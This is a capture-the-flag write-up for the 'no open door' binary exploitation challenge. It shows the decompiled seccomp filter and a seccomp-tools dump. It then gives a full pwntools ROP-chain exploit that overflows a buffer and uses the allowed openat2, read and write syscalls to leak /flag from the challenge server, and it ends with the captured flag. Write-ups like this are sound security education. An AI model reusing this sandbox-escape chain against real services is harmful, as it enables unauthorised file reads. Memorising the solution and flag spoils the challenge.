


# 『no open door』



# 『The challenge』



And the chall: [chall-download](./src/dis.tar.gz)

## 『Highlight vulnerability and parts of interesting』

```asm
00401771    int64_t install_filter()

0040177c        int16_t var_c8 = 0x20
00401785        char var_c6 = 0
0040178c        char var_c5 = 0
00401793        int32_t var_c4 = 4
0040179d        int16_t var_c0 = 0x15
004017a6        char var_be = 1
004017ad        char var_bd = 0
004017b4        int32_t var_bc = 0xc000003e
004017be        int16_t var_b8 = 6
004017c7        char var_b6 = 0
004017ce        char var_b5 = 0
004017d5        int32_t var_b4 = 0x80000000
004017df        int16_t var_b0 = 0x20
004017e8        char var_ae = 0
004017ef        char var_ad = 0
004017f6        int32_t var_ac = 0
00401800        int16_t var_a8 = 0x15
00401809        char var_a6 = 0
00401810        char var_a5 = 1
00401817        int32_t var_a4 = 0
00401821        int16_t var_a0 = 6
0040182a        char var_9e = 0
00401831        char var_9d = 0
00401838        int32_t var_9c = 0x7fff0000
00401842        int16_t var_98 = 0x15
0040184b        char var_96 = 0
00401852        char var_95 = 1
00401859        int32_t var_94 = 1
00401863        int16_t var_90 = 6
0040186c        char var_8e = 0
00401873        char var_8d = 0
0040187a        int32_t var_8c = 0x7fff0000
00401884        int16_t var_88 = 0x15
0040188a        char var_86 = 0
0040188e        char var_85 = 1
00401892        int32_t var_84 = 0x1b5
00401899        int16_t var_80 = 6
0040189f        char var_7e = 0
004018a3        char var_7d = 0
004018a7        int32_t var_7c = 0x7fff0000
004018ae        int16_t var_78 = 0x15
004018b4        char var_76 = 0
004018b8        char var_75 = 1
004018bc        int32_t var_74 = 9
004018c3        int16_t var_70 = 6
004018c9        char var_6e = 0
004018cd        char var_6d = 0
004018d1        int32_t var_6c = 0x7fff0000
004018d8        int16_t var_68 = 0x15
004018de        char var_66 = 0
004018e2        char var_65 = 1
004018e6        int32_t var_64 = 0xe7
004018ed        int16_t var_60 = 6
004018f3        char var_5e = 0
004018f7        char var_5d = 0
004018fb        int32_t var_5c = 0x7fff0000
00401902        int16_t var_58 = 0x15
00401908        char var_56 = 0
0040190c        char var_55 = 1
00401910        int32_t var_54 = 0xc
00401917        int16_t var_50 = 6
0040191d        char var_4e = 0
00401921        char var_4d = 0
00401925        int32_t var_4c = 0x7fff0000
0040192c        int16_t var_48 = 0x15
00401932        char var_46 = 0
00401936        char var_45 = 1
0040193a        int32_t var_44 = 0xf
00401941        int16_t var_40 = 6
00401947        char var_3e = 0
0040194b        char var_3d = 0
0040194f        int32_t var_3c = 0x7fff0000
00401956        int16_t var_38 = 0x15
0040195c        char var_36 = 0
00401960        char var_35 = 1
00401964        int32_t var_34 = 3
0040196b        int16_t var_30 = 6
00401971        char var_2e = 0
00401975        char var_2d = 0
00401979        int32_t var_2c = 0x7fff0000
00401980        int16_t var_28 = 0x15
00401986        char var_26 = 0
0040198a        char var_25 = 1
0040198e        int32_t var_24 = 8
00401995        int16_t var_20 = 6
0040199b        char var_1e = 0
0040199f        char var_1d = 0
004019a3        int32_t var_1c = 0x7fff0000
004019aa        int16_t var_18 = 6
004019b0        char var_16 = 0
004019b4        char var_15 = 0
004019b8        int32_t var_14 = 0x80000000
004019bf        int16_t var_d8 = 0x17
004019cf        int16_t* var_d0 = &var_c8
004019f5        int32_t rax_1
004019f5        uint64_t rcx
004019f5        rax_1, rcx = __prctl(0x26, 1, 0, 0, 0)
004019f5        
004019fc        if (rax_1 s>= 0)
00401a17            int32_t result = __prctl(0x16, 2, &var_d8, rcx, 0)
00401a17            
00401a1e            if (result s>= 0)
00401a2c                return result
00401a2c        
00401a25        _Exit(1)
00401a25        noreturn
```

Seccomp of course

## 『Solving Challenge』
> solve by Lylera

because this seccomp, use: https://github.com/david942j/seccomp-tools to get know what kind of instruction that can we allow to use

```asm
┌──(Lylera㉿Ly)-[~/Downloads/for_ctf_alls/event/wolv]
└─$ seccomp-tools dump ./no-open-door
sandbox rental unit. no exec, no open.
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x01 0x00 0xc000003e  if (A == ARCH_X86_64) goto 0003
 0002: 0x06 0x00 0x00 0x80000000  return KILL_PROCESS
 0003: 0x20 0x00 0x00 0x00000000  A = sys_number
 0004: 0x15 0x00 0x01 0x00000000  if (A != read) goto 0006
 0005: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0006: 0x15 0x00 0x01 0x00000001  if (A != write) goto 0008
 0007: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0008: 0x15 0x00 0x01 0x000001b5  if (A != 0x1b5) goto 0010
 0009: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0010: 0x15 0x00 0x01 0x00000009  if (A != mmap) goto 0012
 0011: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0012: 0x15 0x00 0x01 0x000000e7  if (A != exit_group) goto 0014
 0013: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0014: 0x15 0x00 0x01 0x0000000c  if (A != brk) goto 0016
 0015: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0016: 0x15 0x00 0x01 0x0000000f  if (A != rt_sigreturn) goto 0018
 0017: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0018: 0x15 0x00 0x01 0x00000003  if (A != close) goto 0020
 0019: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0020: 0x15 0x00 0x01 0x00000008  if (A != lseek) goto 0022
 0021: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0022: 0x06 0x00 0x00 0x80000000  return KILL_PROCESS
 ```

 so in here there are some that allow you to use. Read, write, 0x1b5 -> openat2, mmap, exit_group, brk, rt_sigreturn, close, lseek. So in this one i still not understand too much about seccomp tho but i only understand this one https://kazma.tw/2024/02/07/Pwnable-tw-orw-Writeup/. So i use `bss` in here to get command syscall what i want after that using rop chain to do syscall (also ask ai too some of these cuz i don't quite understand):

 ```py
 # dibantu eiai :', jujur gk paham about seccomp but here
from pwn import *

elf = context.binary = ELF('./no-open-door')
# p = process()
p = remote('no-open-door.wolvctf-2026.kctf.cloud', 1337)
rop = ROP(elf)

POP_RDI   = rop.find_gadget(['pop rdi', 'ret'])[0]
POP_RSI   = rop.find_gadget(['pop rsi', 'ret'])[0]
POP_RDX   = rop.find_gadget(['pop rdx', 'ret'])[0]
POP_R10   = rop.find_gadget(['pop r10', 'ret'])[0]
POP_RAX   = rop.find_gadget(['pop rax', 'ret'])[0]
SYSCALL_R = rop.find_gadget(['syscall', 'ret'])[0]

bss = 0x4c9000
other_addr = bss + 0x100
buf_addr = other_addr + 0x100

def syscall(rax, rdi=None, rsi=None, rdx=None, r10=None):
    chain = b''
    if rdi is not None: chain += flat(POP_RDI, rdi)
    if rsi is not None: chain += flat(POP_RSI, rsi)
    if rdx is not None: chain += flat(POP_RDX, rdx)
    if r10 is not None: chain += flat(POP_R10, r10)
    chain += flat(POP_RAX, rax)
    chain += flat(SYSCALL_R)
    return chain

rop_chain  = syscall(0,   rdi=0, rsi=bss, rdx=0x118)
rop_chain += syscall(437, rdi=-100, rsi=bss, rdx=other_addr, r10=24)
rop_chain += syscall(0,   rdi=3, rsi=buf_addr, rdx=0x100)
rop_chain += syscall(1,   rdi=1, rsi=buf_addr, rdx=0x100)
rop_chain += syscall(231, rdi=0)

payload = flat('A'*0x48, rop_chain).ljust(0x200, b'\x00')

for_flek = b"/flag\x00".ljust(0x100, b'\x00') + flat(0, 0, 0)

p.sendafter('sandbox rental unit. no exec, no open.\n', payload)
p.send(for_flek)
p.interactive()
```

Sowwy... only this one i use ai

### 『Flag』

```
wctf{y0u_f0rg0t_t0_cl0se_0penat2}
```

### 『Reference』

- https://github.com/david942j/seccomp-tools
- https://kazma.tw/2024/02/07/Pwnable-tw-orw-Writeup/